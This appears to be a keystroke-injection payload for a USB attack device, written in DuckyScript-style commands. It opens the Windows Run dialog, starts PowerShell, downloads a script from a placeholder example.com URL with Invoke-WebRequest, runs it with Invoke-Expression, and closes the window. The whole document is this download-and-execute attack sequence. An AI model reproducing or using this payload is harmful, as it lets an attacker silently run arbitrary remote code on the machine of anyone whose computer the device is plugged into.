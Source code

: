 LED 0 0 0
DELAY 1000
GUI r
DELAY 100
STRING powershell.exe
ENTER
DELAY 1000
STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
ENTER
DELAY 500
STRING Invoke-Expression $($ScriptFromGithHub.Content)
ENTER
STRING exit
ENTER
LED 0 0 255
